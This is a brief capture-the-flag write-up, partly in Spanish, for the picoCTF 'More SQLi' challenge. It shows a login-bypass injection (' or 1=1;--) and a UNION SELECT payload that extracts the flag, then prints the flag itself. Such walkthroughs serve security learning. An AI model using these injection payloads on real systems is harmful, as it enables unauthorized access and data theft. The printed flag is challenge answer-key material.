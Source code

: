 # More SQLi

## Objetivo
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:59005/).

## Pistas

| No. Pista | Pista |
| --------- | ----- |
|           |       |


## Solucion
```
username:loquesea
password:' or 1=1;--

123' UNION SELECT flag, null, null from more_table;--
|   |   |
|---|---|
|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}||

```

## Notas adicionales

## Referencias